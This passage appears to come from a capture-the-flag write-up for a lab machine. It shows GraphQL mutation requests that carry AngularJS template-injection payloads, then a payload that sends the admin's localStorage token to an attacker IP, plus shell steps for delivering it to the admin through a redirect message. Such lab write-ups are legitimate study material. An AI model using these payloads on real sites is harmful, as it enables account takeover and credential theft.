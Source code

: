 ```json
{"operationName":"update","variables":{"firstname":"{{$on.constructor('alert(1);')()}}","lastname":"null","id":"629b97099e22050421afde2d","newusername":"apehex"},"query":"mutation update($newusername: String!, $id: ID!, $firstname: String!, $lastname: String!) {\n  update(\n    newusername: $newusername\n    id: $id\n    firstname: $firstname\n    lastname: $lastname\n  ) {\n    username\n    email\n    id\n    firstname\n    lastname\n    __typename\n  }\n}"}
```

Which can be queried via JS:

```javascript
fetch("http://internal-api.graph.htb/graphql", {
    method: "POST",
    headers: {"Content-Type": "application/json",},
    credentials: "include",
    body: JSON.stringify({"operationName":"update","variables":{"firstname":"{{$on.constructor('alert(1);')()}}","lastname":"null","id":"629b97099e22050421afde2d","newusername":"apehex"},"query":"mutation update($newusername: String!, $id: ID!, $firstname: String!, $lastname: String!) {\n update(\n newusername: $newusername\n id: $id\n firstname: $firstname\n lastname: $lastname\n) {\n username\n email\n id\n firstname\n lastname\n __typename\n}\n}"}),
})
```

### Reading the local storage

The previous SSTI payload can be improved to read the local storage:

```javascript
{{$on.constructor('new Image.src="http://10.10.16.2:9999/?t="+window.localStorage.getItem("adminToken");')()}}
```

This can be parametrized and encapsulated into a JS fetch request:

```shell
PAYLOAD='{{$on.constructor("+String.fromCharCode(39)+"new Image().src="+String.fromCharCode(34)+"http://'"${IP}"'/?token="+String.fromCharCode(34)+"+window.localStorage.getItem("+String.fromCharCode(34)+"adminToken"+String.fromCharCode(34)+");"+String.fromCharCode(39)+")()}}'
CODE='var request = new XMLHttpRequest();request.open("POST","http://internal-api.graph.htb/graphql",false);request.setRequestHeader("Content-Type","text/plain");request.withCredentials=true;request.send(JSON.stringify({"operationName":"update","variables":{"firstname":"'"${PAYLOAD}"'","lastname":"null","id":"'"${ID}"'","newusername":"'"${USERNAME}"'"},"query":"mutation update($newusername: String!, $id: ID!, $firstname: String!, $lastname: String!) {update(newusername:$newusername,id:$id,firstname:$firstname,lastname:$lastname) {username,email,id,firstname,lastname,adminToken}}"}))'
```

The special characters like quotes are added by the JS interpreter rather than planted from the start, since it caused encoding problems.

Also the request is made synchronously, I had issues with `fetch`.

### Exfiltrate and admin token

Now the exfiltration process is more straightforward:

```shell
# create a new web user
bash payloads/register.sh
# get the user id of the admin that sends a message
bash payloads/get_userid.sh Mark
# craft a redirect XSS to inject the exfiltration payload in the admin profile
bash payloads/ssti_profile.sh $'629babb17f2d0a05fc3730f1' $'Mark' $'10.10.16.2:9999' | uglifyjs > exfil.js
# generate the redirection URL
bash payloads/redirect.sh $(cat exfil.js) > url.txt
# finally, send the resulting URL to the admin by message
# and then redirect to the logout to actually load the code from the server
```
